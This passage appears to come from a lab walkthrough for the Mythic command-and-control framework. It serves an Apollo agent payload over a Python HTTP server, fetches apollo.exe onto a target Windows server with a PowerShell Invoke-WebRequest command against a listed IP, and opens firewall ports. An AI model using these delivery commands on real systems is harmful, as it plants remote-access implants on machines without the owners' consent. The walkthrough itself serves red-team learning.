 ```bash
python3 -m http.server 9999
```

![httpserver9999](Screenshots/mythicpayload9999port.png)

Download the payload on the target Windows server:

```powershell
Invoke-WebRequest -Uri http://45.77.53.41:9999/Apollo/apollo.exe -OutFile "C:\Temp\apollo.exe"
```

![invoke](Screenshots/mythicpayload.png99999Invoke.png)

This command will look for our Mythic server on port 9999 and download `apollo.exe` into the Temp folder of the target Windows server. 

If you encounter any errors, ensure you specify the exact path from where `apollo.exe` was stored in the Mythic server (`/Apollo/apollo.exe`) and allow ports 9999 and 80 from your Mythic server:

```bash 
ufw allow 9999
ufw allow 80
```

![status200](Screenshots/mythicpayload9999status200.png)

Now we should see status 200, indicating success.

We can open File Explorer and verify that `apollo.exe` has been downloaded in the Temp folder of the target Windows server.

![apollotemp](Screenshots/mythicpayload9999Temp.png)
